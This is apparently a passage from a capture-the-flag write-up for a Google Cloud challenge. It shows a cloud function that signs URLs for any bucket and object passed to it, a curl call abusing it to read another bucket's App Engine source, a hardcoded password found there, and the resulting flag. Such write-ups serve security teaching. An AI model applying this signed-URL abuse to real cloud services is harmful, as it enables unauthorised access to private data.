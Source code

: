 ```

    const options = {
        version: 'v4',
        action: 'read',
        expires: Date.now() + 15 * 60 * 1000, // 15 minutes
      }

    try {
        const [url]  = await storage
        .bucket(bucket)
        .file(object)
        .getSignedUrl(options)


        res.status(200).json(
            {
                message: "Success!",
                signedURL: url
            }
        );
    } catch(e) {
        console.error(e)
        res.status(400).json({
            status: 400,
            message: "Something went wrong, not my problem"
        })
    }
    
  };
  ```

So this source code is really simple it takes two params, `b` and `o` and creates a signedURL for that bucket object respectivly. This means that perhaps we can access the app-engine-src bucket this way instead of directly.
So lets try call this cloud function with `b=app-engine-src` and `o=index.js`

```
curl https://australia-southeast1-at-your-service-tf.cloudfunctions.net/professional-signer?b=app-engine-src-tf&o=index.js -H 'Authorization: Bearer <jwttoken>
```

And we get a signed URL, accessing this we get the source code of the App Engine instance! and here is the important bit

```
if (req.body.password === "https://www.youtube.com/watch?v=lnigc08J6FI") {
    res.status(200).send(process.env.FLAG)
  } else {
    res.status(401).send('Bad password')
  }
```

We get the password needed to get the flag! which is `https://www.youtube.com/watch?v=lnigc08J6FI` going back to the App Engine instance and inputting this password we get the flag:

`DUCTF{and_thats_the_way_its_gonna_be_little_darling_we'll_be_riding_on_the_horses_YEAAAAAAAAAAAAAAAAAAAAYEAAAAAAAAAAAAAAAAAAAAH}`
